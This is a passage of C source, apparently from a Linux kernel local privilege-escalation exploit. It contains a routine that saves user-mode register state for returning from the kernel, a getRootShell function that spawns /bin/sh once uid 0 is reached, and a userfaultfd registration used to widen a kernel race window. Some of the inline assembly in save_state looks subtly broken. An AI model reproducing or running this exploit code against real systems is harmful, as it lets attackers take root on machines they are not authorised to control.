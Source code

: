 ```c
        printf("%016lx %016lx\n", buf[i], buf[i + 1]);
    }
}

static void save_state()
{
    __asm__ __volatile__(
    "movq %0, cs;"
    "movq %1, ss;"
    "pushfq;"
    "popq %2;"
    "movq %3, %%rsp\n"
    : "=r" (usr_cs), "=r" (usr_ss), "=r" (usr_rflags), "=r" (usr_sp) : : "memory" );
}

static void getRootShell()
{
    if(getuid())
    {
        printf("[-] Failed to get a root");
        exit(0);
    }

    printf("[+] uid : %d\n", getuid());
    printf("[+] Got root.\n");

    execl("/bin/sh", "sh", NULL);
}

void register_userfaultfd(uint64_t *range)
{
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;

    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);

    if (uffd == -1)
    {
        perror("[-] userfaultfd");
        exit(0);
    }

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;

    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
    {
        perror("[-] ioctl");
        exit(0);
    }

    printf("[*] Start monitoring range: %p - %p\n", page, page + PAGE_SIZE);

    uffdio_register.range.start = (uint64_t) range;
    uffdio_register.range.len = PAGE_SIZE;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;

    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
    {
        perror("[-] ioctl");
        exit(0);
    }

```